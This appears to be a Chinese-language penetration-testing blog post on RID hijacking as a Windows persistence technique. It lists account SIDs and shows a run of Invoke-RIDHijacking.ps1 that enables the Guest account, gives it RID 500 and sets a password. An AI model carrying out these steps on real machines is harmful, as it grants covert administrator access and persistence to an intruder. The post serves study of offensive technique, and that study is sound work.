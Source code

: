 ```yaml
---
title: RID Hijacking
date: 2019-12-31 23:59:53 +0800
categories: [域安全, TA0003持久化]
tags: [RIDHijacking, TA0003持久化]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# RID Hijacking

## 0x00 简介

通过操作SAM注册表，修改本地账户RID为500，实现RID劫持



**参考：**

[Persistence – RID Hijacking](https://pentestlab.blog/2020/02/12/persistence-rid-hijacking/)

[Rid Hijacking: When Guests Become Admins](https://blog.stealthbits.com/rid-hijacking-when-guests-become-admins/)



## 0x01 相关概念

使用psexec.exe以system权限打开注册表*HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users*，

![img](/assets/img/1963614-20200402113951327-1904547625.png)

![img](/assets/img/1963614-20200405193338454-466131382.png)

 

 **Powershell获取部分SID：**

```
# 获取本地账户SID
PS C:\Users\win10> Get-LocalUser | Format-Table Name, SID

Name               SID
----               ---
Administrator      S-1-5-21-2464835639-589224845-1263889796-500
DefaultAccount     S-1-5-21-2464835639-589224845-1263889796-503
DELL               S-1-5-21-2464835639-589224845-1263889796-1000
Guest              S-1-5-21-2464835639-589224845-1263889796-501
WDAGUtilityAccount S-1-5-21-2464835639-589224845-1263889796-504

# 获取本地账户安全组SID
PS C:\Users\win10> Get-LocalGroup | Format-Table Name, SID

# 获取域账户SID
PS C:\Users\Administrator> Get-ADUser -Filter * | Format-Table Name, SID

Name           SID
----           ---
Administrator  S-1-5-21-411020405-2313891870-2612819012-500
Guest          S-1-5-21-411020405-2313891870-2612819012-501
DefaultAccount S-1-5-21-411020405-2313891870-2612819012-503
krbtgt         S-1-5-21-411020405-2313891870-2612819012-502
win10          S-1-5-21-411020405-2313891870-2612819012-1107
win7           S-1-5-21-411020405-2313891870-2612819012-1109

# 获取域账户安全组
PS C:\Users\Administrator> Get-ADGroup  -Filter * | Format-Table Name, SID
```

一般RID 500是Administrator, 501是Guest, 503是DefalutAccount

此外，Windows会预定义一些account和group，如*NT AUTHORITY\Local Service S-1-5-19*，在这里可以查看常见SID：

https://support.microsoft.com/en-au/help/243330/well-known-security-identifiers-in-windows-operating-systems

https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers#well-known-sids

##  

## 0x02 RID Hijacking

RID劫持就是修改注册表，将Guest等非administrator账户所对应的RID改成500，冒充Administrator； 此外，如果账户是禁用的，还需要修改偏移`0x38`处的值来启用账户。

### 1. Invoke-RIDHijacking.ps1

```
PS C:\Windows\system32> net user guest /active:yes
The command completed successfully.

PS C:\Windows\system32> Import-Module C:\Users\win10\Desktop\Invoke-RIDHijacking.ps1
PS C:\Windows\system32> Invoke-RIDHijacking -UseGuest -RID 500 -Password Password123
[+] Elevated to SYSTEM privileges
[+] Found Guest account
[+] Target account username: Guest
[+] Target account RID: 501
[*] Current RID value in F for Guest: 01f4
[*] Setting RID 500 (01f4) in F for Guest
[*] Setting password to user...
The command completed successfully.

[+] Password set to Password123
[+] SUCCESS: The RID 500 has been set to the account Guest with original RID 501
```

在win10上执行此操作会导致该账户配置文件损坏，桌面登录时explorer.exe不断崩溃重启，只能runas或网络登录。

```
PS C:\Windows\system32> runas /user:guest powershell.exe
Enter the password for guest:
Attempting to start powershell.exe as user "WIN10-PC\guest" ...
```

通过whoami命令查看Guest现在对应的SID，但并没有显示Guest账户加入Administrators group中；此外，用powershell Get-LocalUsers命令并没有得到更新后的RID，与用whoami看到的不一致。 

 ![img](/assets/img/1963614-20200405192356137-736697671.png) 











 

 